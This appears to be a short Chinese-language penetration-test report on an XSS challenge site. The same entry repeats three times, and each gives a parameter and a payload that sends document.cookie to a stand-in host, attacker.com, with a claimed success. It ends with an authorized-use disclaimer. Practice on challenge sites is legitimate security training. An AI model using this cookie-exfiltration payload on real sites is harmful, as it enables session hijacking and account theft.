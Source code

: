 ### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

## 免责声明
本报告中的攻击方法仅用于授权的安全测试和研究目的。
在使用这些方法之前，请确保：
1. 您有明确的授权许可
2. 仅在测试环境或授权范围内使用
3. 不要对未授权的目标使用这些方法
4. 遵守相关法律法规和道德准则